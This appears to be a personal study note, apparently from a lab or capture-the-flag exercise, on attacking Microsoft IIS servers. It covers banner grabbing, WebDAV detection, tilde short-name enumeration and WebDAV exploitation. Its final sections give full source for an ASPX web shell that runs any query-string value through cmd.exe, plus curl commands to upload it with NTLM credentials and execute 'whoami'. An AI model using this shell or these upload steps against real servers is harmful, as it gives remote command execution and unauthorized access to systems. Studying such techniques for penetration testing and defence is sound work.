




# Introduction
- IIS is installed on virtually every Windows Server running a web application, intranet portal, or REST API
- IIS is tightly integrated with Windows authentication, active directory, and the .NET runtime, which makes it a high value initial access target
- **Lazarus Group** exploited IIS servers in 2023 to gain initial access and distribute malware
- HAFNIUM deployed ASPX web shells on IIS during Exchange ProxyLogon campaign in 2021

# IIS Fingerprinting and Enumeration
- IIS version tells you which CVEs apply




## HTTP Banner Grabbing
- The fastest way to fingerprint IIS is to read the response headers
- IIS includes Server header in every response
    ```
    curl -I http://machine_ip
    ```

## WebDAV detection with Options
- Web Distributed Authoring and Versioning(WebDAV) is an HTTP extension that adds file management verbs: **PUT(upload), DELETE, COPY, MOVE, PROPFIND, and LOCK**
- HTTP **OPTIONS** method ask server to return its supported methods
    ``` 
    curl -X OPTIONS http://mchine_ip -sv 2>&1 | grep -E "Allow:|DAV"
    ```
    - If **Allow** list only contains **GET, HEAD, POST, and OPTIONS** means WebDAV is off
    - When you see **PUT, MOVE, and DAV 1,2**, WebDAV is enabled and you should test it for write access

## Testing what file types can be uploaded and executed         
- Knowing WebDAV is not enough, you need to know whether you can upload files and, critically, whether uploaded files are executed
- Approach is straightforward: **PUT** a test file, then **GET** it and observe the response
- **200** with output means server executed it, **200** with you raw file content means it was served statically
    ```
    curl -s -o /dev/null -w "PUT aspx: %{http_code}\n" -X PUT --data '<%@ Page Language=Jscript%><%Response.Write(1+1)%>' http://10.49.157.103/webdav/test.aspx
    ```


# IIS Tilde(Short Filename) Enumeration
- The IIS tilde enumeration technique leaks the names of files and directories that standard browsing and directory brute-forcing would never find.

## The 8.3 short Filename problem
- Windows inherited 8.3 filename format from DOS
- Here, filename can have at most 8 characters for the name and 3 for the extension
- This is default until newer server builds and cloud images disable it
- Conversion rule
    - Take first 6 characters of long name
    - Append **~1** (or **~2**, **~3** if there is a collision)
    - Keep first 3 characters of the extension
    - E.g **BackupFiles** becomes **Backup~1**, **AdminPortal1** becomes **AdminI~1**, **users_backup.xlsx** becomes **users_~1.xls**
    

## How Vulnerability works?
- When IIS receives request with **~** character in path, it responds differently depending on it matches a real short name or not.
- Path that matches real file or directory returns different HTTP status code or response size than path that matches nothing
- For example, if scanner determines that **/BACKUP~1/** returns **404** with a slightly different response body than **/ZZZZZZ~1**, it knows **BACKUP~1** exists
- This vulnerability was first publicly disclosed in 2012 discovered in 2010 which affects IIS 5.x through IIS10.0, including current versions on Server 2022
- Recommended mitigation is to disable 8.3 filename creation in Windows registry

## Scanning with iis_shortname_scan.py
- It's a python tool that probes server character by character and reconstructs short names from the response differences
```
python3 iis_shortname_scan.py http://machine_ip/
```

## What short name tells you?


## Enumerating the Discovered Directory
- Short name **backup~1** tells you that directory name starts with **backup**
- IIS doesn't serve content via short-name URL path directly, scanner exploits response differences, not direct resolution
```
curl http://machine_ip/BackupFiles/
```
- Directory listing is enabled and reveals one file **webdav_notes.txt**
- In real engagement we need to try several completions like **/backup/**, **/BackupFiles/**, **/backup_data/** or use wordlist against the confirmed 6-character prefix
```
curl http://machine_ip/BackupFiles/webdav_notes.txt
```


# WebDAV Exploitation: Uploading an ASPX Shell
## Three conditions for a successful shell upload
    1. WebDAV is enabled on the target directory
    2. Valid credentials with write permission on the WebDAV directory
    3. Script Execute is set, IIS passes **.aspx** request to the ASP.NET handler rather than serving them as static content

## Preparing the ASPX Shell
- Save following as **cmd.aspx**. It accepts as **cmd** query parameter, runs it through **cmd.exe** and returns the output
```
<​%@ Page Language="C#" %​>
<​% 
  string cmd = Request.QueryString["cmd"];
  if (!string.IsNullOrEmpty(cmd)) {
    var proc = new System.Diagnostics.Process();
    proc.StartInfo.FileName = "cmd.exe";
    proc.StartInfo.Arguments = "/c " + cmd;
    proc.StartInfo.UseShellExecute = false;
    proc.StartInfo.RedirectStandardOutput = true;
    proc.Start();
    Response.Write("<pre>" + proc.StandardOutput.ReadToEnd() + "</pre>");
  }
%​>
```

## Uploading the Shell
- IIS protects the **/webdav/** directory with windows Authentication
- Anonymous user can only read(**GET**), but write operations (**PUT, DELETE, MOVE**) require valid Windows identity
- NTLM proves that identity without transmitting the plaintext password(**--ntlm** tells use this handshake protocol for authentication)
```
curl -v --ntlm -u 'webdav_user:P@ssw0rd!123' -T cmd.aspx http://machine_ip/webdav/cmd.aspx
```

## Confirming Execution
- Request shell with a test command
```
curl "http://machine_ip/webdav/cmd.aspx?cmd=whoami"
```
- If you get blank response or  500 error, Script Execute permission is not set